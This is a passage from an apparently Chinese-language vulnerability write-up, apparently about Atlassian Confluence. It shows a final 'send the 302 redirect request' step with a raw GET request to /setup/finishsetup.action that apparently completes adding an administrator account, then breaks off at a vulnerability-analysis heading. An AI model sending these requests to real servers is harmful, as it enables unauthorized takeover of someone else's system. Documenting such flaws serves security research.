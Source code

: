 ```bash
Content-Length: 0
Date: Thu, 26 Oct 2023 15:07:12 GMT
Connection: close
```

0x03 send 302 跳转包即可添加成功

```bash
GET /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
X-Atlassian-Token: no-check
Referer: http://172.16.4.1:8090/setup/setupadministrator.action
```

[![](assets/1699929092-6f0b95bf4581d052252699c978df328b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153751-0d923362-7f9c-1.png)

## 漏洞分析

漏洞原因是：
